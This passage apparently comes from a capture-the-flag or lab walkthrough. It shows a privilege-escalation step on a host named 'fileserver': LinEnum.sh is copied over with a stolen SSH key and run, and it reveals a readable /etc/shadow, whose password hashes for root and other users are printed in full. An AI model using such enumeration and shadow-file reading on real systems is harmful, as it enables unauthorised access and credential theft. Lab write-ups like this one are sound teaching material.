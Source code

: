
We don’t have permissions to patch and overwrite the file and the fgets function is not overflowable



ALTERNATE PATH TO ROOT:

To help speed up local enumeration we often run LinEnum.sh. This script automates a bunch of checks we would normally perform manually:

root@kali /smbdata: scp -i id_rsa /usr/share/webhandler/modules/escalation/LinEnum.sh smbuser@192.168.232.129:/home/smbuser 

Once that has copied over we can run it:

[smbuser@fileserver ~]$ chmod +x LinEnum.sh
[smbuser@fileserver ~]$ ./LinEnum.sh > LinEnum.log

Combing through the results we can see that we have read access to the shadow file and therfore all user hashes:

[+] We can read the shadow file!
root:$6$zWU8uYN5$iHT030gilg9kM1iYCZt/z3q4fWpSNHwwLElFWof/C3MfbqgmbWAnG5sXFEdkMj60MLvYc6HEB7/REq2u2aVVh0:18317:0:99999:7:::
bin:*:16372:0:99999:7:::
daemon:*:16372:0:99999:7:::
adm:*:16372:0:99999:7:::
lp:*:16372:0:99999:7:::
sync:*:16372:0:99999:7:::
shutdown:*:16372:0:99999:7:::
halt:*:16372:0:99999:7:::
mail:*:16372:0:99999:7:::
operator:*:16372:0:99999:7:::
games:*:16372:0:99999:7:::
ftp:*:16372:0:99999:7:::
nobody:*:16372:0:99999:7:::
avahi-autoipd:!!:18310::::::
dbus:!!:18310::::::
polkitd:!!:18310::::::
tss:!!:18310::::::
postfix:!!:18310::::::
sshd:!!:18310::::::
systemd-network:!!:18310::::::
gluster:!!:18310::::::
smbuser:$6$ePvCCtcG$mAQFQldd7/k25o51NK2gkccL24r7DzhrqZGTyjoLlhOCKb060BuB/X6Qlc7noUv61K9NXtaPeWnYRlLWigBfF1:18317:0:99999:7:::
rpc:!!:18311:0:99999:7:::
tcpdump:!!:18311::::::
rpcuser:!!:18311::::::
nfsnobody:!!:18311::::::
apache:!!:18311::::::
bla:$6$ENV.HdIK$huk85ZxIDwa7jK8W1i0cfV/s67QDyYFaEHVrrpKjYesEJXAiaTo4jtNvfmKD4y1ULhub6gahOVIBaXxcpgm0n.:18317:0:99999:7:::

